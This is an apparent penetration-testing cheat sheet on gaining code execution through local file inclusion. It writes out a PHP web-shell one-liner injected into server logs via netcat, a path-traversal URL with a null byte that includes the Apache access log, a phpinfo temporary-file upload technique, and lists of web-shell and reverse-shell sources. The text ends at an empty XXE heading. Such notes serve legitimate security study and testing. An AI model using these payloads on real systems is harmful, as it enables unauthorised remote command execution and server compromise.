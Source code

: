 
Linux Server Logs:

* Web server log: /var/log/httpd/access_log (URI and User Agent)
* System Authentication Logs: /var/log/auth.log (SSH, FTP,...)
* Read vendor documentation for framework

{% highlight bash %}
#From logs
nc -nv 192.168.1.2 80
<?php echo shell_exec($_GET['cmd']);?>
Navigate to http://192.168.1.2/cmd=ipconfig&LANG=../../../../../../../../xampp/apache/logs/access_log%00

#Look for file uploads and determin directory
#Attempt to upload a web shell
Navigate to that location using LFI.

{% endhighlight %}

* [LFI Shell 1](http://resources.infosecinstitute.com/local-file-inclusion-code-execution/)
* [LFI Shell 2](https://highon.coffee/blog/lfi-cheat-sheet/)


**PHPINFO File Upload for LFI**
Create a script that does (e.g., phpinfoLFI.py):
1. Create an HTML file onthe attackers box
{% highlight HTML %}
<html><body>
<form enctype="multipart/form=data" action="phpinfo.php" method="POST">
  <input name="upfile" type="file" />
  <input type="submit" /> 
  </form>
  </body></html>
{% endhighlight %}

2. Look at the return page for the random file name and location [tmp_name] => /tmp/phpL9A0b

3. Use LFI to read the file blog.site.org/fileview.php?loc=/tmp/phpL9A0b

> **Web Shells**

Kali: 

PHP | <code> /usr/share/webshells/php/ </code>
PERL | <code> /usr/share/webshells/perl/ </code>
Cold Fusion | <code> /usr/share/webshells/cfm/ </code>
ASP | <code> /usr/share/webshells/asp/ </code>
ASPX | <code> /usr/share/webshells/aspx/ </code>
JSP | <code> /usr/share/webshells/jsp/jsp-reverse.jsp </code>

Online:

* [PHP and Perl](http://pentestmonkey.net/category/tools/web-shells)
* [Bash, PHP, Netcat, Telnet, Perl, Ruby, Java, Python, Gawk](https://highon.coffee/blog/reverse-shell-cheat-sheet/)

> **XXE**
